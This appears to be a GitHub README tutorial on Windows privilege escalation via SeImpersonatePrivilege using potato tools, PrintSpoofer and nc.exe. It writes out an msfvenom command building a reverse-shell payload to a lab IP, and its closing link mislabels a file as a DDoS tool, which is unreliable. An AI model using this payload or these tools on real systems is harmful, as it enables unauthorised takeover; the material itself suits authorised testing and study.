 # how to exploit SeImpersonatePrivilege in windows machine during pentesting 

How to exploit SeImpersonatePrivilege with different ways, it is also gud to check what version of operating system were dealing with
```
C:\Users\Public\Desktop>systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Hotfix(s):                 4 Hotfix(s) Installed.
```

### Assume you have exploi a windows operating system and you run the **whoami/priv** you find that you can exploit to **nt authority\system**  throught tokenImpersonate, there many ways do this but when doing pentesting, in this blog am going to upload every technique i use when i meet this enviroment when approaching a target.

## Take an example
```
C:\Users\Public\desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Public\desktop>
```

From the above scenarion there many ways you can try to exploit this but actually i am making this one so i can easy simplfy my way in with this easy way to become administrator.

## first thing were gonna need is transfering the following binaries into our target machine 
1. nc.exe (specific for windows) [[nc.exe]]
2. RoguePotato.exe 
3. JuicyPotato
4. payload with msfvenom specific for windows(msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe)
5. PrintSpoofer

```
C:\Users\Public\desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D582-9880

 Directory of C:\Users\Public\desktop

04/13/2024  08:59 AM    <DIR>          .
04/13/2024  08:59 AM    <DIR>          ..
04/13/2024  07:23 AM    <DIR>          Microsoft
04/13/2024  06:59 AM            59,392 nc.exe
04/13/2024  07:23 AM           347,648 potato.exe
04/13/2024  08:59 AM           159,232 rogue.exe
04/13/2024  07:28 AM             7,168 shell.exe
04/13/2024  08:39 AM            27,136 spoofer.exe
02/20/2020  03:14 AM             1,191 TeamViewer 7.lnk
               7 File(s)        601,801 bytes

[[RoguePotato.md]]         3 Dir(s)  13,362,515,968 bytes free
```
Everything required is available here no need to search for them online anymore, just this repostory is enough to go for root/administrator



# references
```
The following are the references i have used to create everything here

1.https://github.com/itm4n/PrintSpoofer/releases
2. https://github.com/ohpe/juicy-potato
3. https://github.com/antonioCoco/RoguePotato/tree/master/RoguePotato
4. https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe
5. https://juggernaut-sec.com/seimpersonateprivilege/
6. https://github.com/BeichenDream/GodPotato
7. https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/
8. https://github.com/antonioCoco/RoguePotato/tree/master
9. https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

```

## <a name="RoguePotato documentation"> </a>RoguePotato documentation
- [RoguePotato.md](https://github.com/alien-keric/SeImpersonatePrivilege/blob/main/JuicyPotato.md) - 🖥️ A  ddos tool made with simple script written in python . **By [@alien-keric](https://github.com/alien-keric)**

